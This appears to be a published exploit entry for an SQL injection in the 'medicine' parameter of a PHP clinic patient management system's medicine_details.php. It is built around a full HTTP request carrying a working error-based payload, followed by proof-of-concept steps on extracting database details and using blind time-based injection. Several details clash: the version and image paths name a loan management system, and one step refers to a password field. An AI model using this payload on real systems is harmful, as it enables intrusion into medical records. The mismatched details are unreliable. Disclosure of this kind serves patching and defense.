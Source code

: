 # Clinic's Patient Management System - medicine_details.php 'medicine' SQL inject

#### Exploit Title: Clinic's Patient Management System - medicine_details.php 'medicine' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Software Link:https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Clinic's Patient Management System does not filter the content correctly at the "medicine_details.php /medicine" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /medicine_details.php HTTP/1.1
Host: 192.168.31.35:8089
Content-Length: 79
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8089/medicine_details.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

medicine=1 AND GTID_SUBSET(CONCAT(0,(SELECT user()),0),3619)&packing=11&submit=
```

#### Proof of Concept

1、After logging in, use the add medicine function to capture and analyze the traffic, and find that the program is in medicine_details.php.

![](D:\cves\Loan-Management-System\images\meidicineshow.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![](D:\cves\Loan-Management-System\images\medicinesourcecode.png)

3、During manual testing, it is found that SQL error reporting injection exists, so the sensitive information and permissions of the database can be obtained by using the error reporting 

![](D:\cves\Loan-Management-System\images\medicinesqlresult1.png)

![](D:\cves\Loan-Management-System\images\medicinesql.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![](D:\cves\Loan-Management-System\images\medicinesqlresult2.png)

